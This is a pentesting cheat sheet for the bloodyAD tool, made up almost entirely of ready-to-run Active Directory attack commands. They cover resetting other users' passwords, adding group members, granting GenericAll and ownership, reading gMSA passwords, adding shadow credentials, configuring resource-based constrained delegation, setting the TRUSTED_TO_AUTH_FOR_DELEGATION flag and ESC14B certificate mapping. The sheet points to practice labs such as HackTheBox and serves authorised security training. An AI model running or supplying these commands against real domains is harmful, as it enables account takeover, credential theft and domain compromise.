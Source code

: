 ### Installation
Using uv
```
uv tool install bloodyAD
```
Using pipx
```
pipx install bloodyAD
```
### Retrieve User Information
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Modify UPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
### MachineAccountQuota
Enumerate MachineAccountQuota
```
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
### Modify mail
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
### Modify the altSecurityIdentities attribute (ESC14B)
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
### Find Writable Attributes
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
### Shadow Credentials
```
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```
### WriteSPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
### Find Deleted Objects
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```
### Extended Search Operations
```
bloodyAD --host $dc -d $domain -u $username -p $password get search -h
```
e.g. 
```
-c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065 to display tombstoned
```
```
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```
### Restore a deleted object
```
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
``` 
### Create a new computer account
```
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```
### Add Resource Based Constrained Delegation
```
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```
### Notes
- Pass `-k` to use kerberos authentication
- You can pass a user hash instead of a password using `-p :hash` 
- Specify format for '--password' or '-k <keyfile>' using `-f`, e.g. `-f rc4`
### Resources
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/
### Machines To Practice
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)
- TombWatcher (HackTheBox)
- Voleur (HackTheBox)